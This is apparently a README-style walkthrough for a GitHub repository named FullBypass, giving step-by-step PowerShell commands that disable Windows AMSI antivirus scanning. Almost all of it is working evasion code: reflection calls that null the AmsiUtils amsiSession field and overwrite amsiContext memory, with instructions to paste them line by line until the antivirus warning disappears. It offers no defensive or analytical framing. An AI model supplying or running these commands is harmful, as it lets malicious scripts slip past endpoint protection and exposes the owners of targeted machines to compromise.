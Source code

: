 # AMSI Bypass steps (example)

## Github repo: https://github.com/Sh3lldon/FullBypass

### First execute

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### It should show something like this

 - This script contains malicious content and has been blocked by your antivirus software.

### Then you have to use AMSI bypass. Copy and paste line by line.

 - $a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}

 - $b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}

 - [IntPtr]$c = $b.GetValue($null)

 - [Int32[]]$d = @(0xff)
 
 - [System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)

### After repeat

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);
 -  - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### And you should not see errors about "antivirus software". At this point you bypassed AMSI. And may continue.
